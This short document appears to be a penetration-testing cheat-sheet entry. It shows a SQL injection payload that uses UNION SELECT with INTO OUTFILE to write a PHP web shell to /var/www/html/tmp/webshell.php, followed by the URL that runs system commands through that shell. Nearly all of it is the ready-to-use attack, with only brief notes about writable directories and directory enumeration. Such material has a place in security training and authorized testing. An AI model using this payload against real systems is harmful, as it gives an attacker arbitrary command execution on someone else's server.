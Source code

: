 NOTE: For this attack to work, the file location must be writable to the OS user running
the database software.

UNION SELECT SQL keywords to include a single PHP line into the first column and save it as **webshell.php** in a writable web folder
```
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE
"/var/www/html/tmp/webshell.php" -- //
```
NOTE: try other directories like html or other that you have found out via Directory Enumeration

To access it:
```
http://$ip:$port/tmp/webshell.php?cmd=id
```
